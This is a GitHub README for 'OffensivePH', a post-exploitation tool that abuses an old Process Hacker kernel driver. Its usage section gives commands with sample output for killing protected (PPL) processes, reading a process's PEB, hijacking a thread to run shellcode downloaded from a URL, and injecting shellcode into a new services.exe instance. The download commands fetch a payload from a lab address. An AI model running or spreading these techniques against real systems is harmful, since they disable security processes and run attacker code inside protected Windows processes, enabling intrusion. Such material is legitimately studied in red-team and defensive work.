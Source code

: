 # offensiveph

OffensivePH is a post-exploitation tool that utilizes an old Process Hacker driver to bypass several user-mode access controls. 

## Usage
- Compile Printjacker with VS2019 (tested). 
- Execute with Admin privileges.
```
offensivph.exe [-kill|-peb|-hijack|-apcinject] [<PID>] [<URL>]
	-kill		: Kill process (can kill PPLs)
	-peb		: Read PEB of a process
	-hijack		: Inject shellcode using thread execution hijacking
	-apcinject	: Inject shellcode into a new services.exe (WinTCB-PPL) instance
```
- Kill processes
```
offensiveph.exe -kill 8228
# OffensivePH
-------------------------------------------------
[*] Driver path: C:\Users\RedSection\kph.sys
[*] Connected to KprocessHacker Driver
[*] Trying to terminate pid: 8228
[+] KphTerminateProcess is SUCCESSFUL
[*] Service and file are removed
```
- Inject shellcode by using Hijack Thread execution 
```
offensiveph.exe -hijack 8412 http://192.168.56.100/calc-clean.bin
# OffensivePH
-------------------------------------------------
[*] Driver path: C:\Users\baris\RedSection\kph.sys
[*] Connected to KprocessHacker Driver
[+] Connecting to URL for downloading payload
[+] Process 8412 thread is hijacked to execute payload
[*] Service and file are removed
```
- Inject shellcode into a new services.exe instance
```
offensiveph.exe -apcinject http://192.168.56.100/calc-clean.bin
# OffensivePH
-------------------------------------------------
[*] Driver path: C:\Users\baris\RedSection\kph.sys
[*] Connected to KprocessHacker Driver
[+] Process 652 token is duplicated as Impersonation Token!
[+] Connecting to URL for downloading payload
[+] Protected Shellcode Host Process: 6520
[*] Service and file are removed
```

## References
This repo contains lots of codes and inspration from original Process Hacker code. 
- https://github.com/processhacker/processhacker
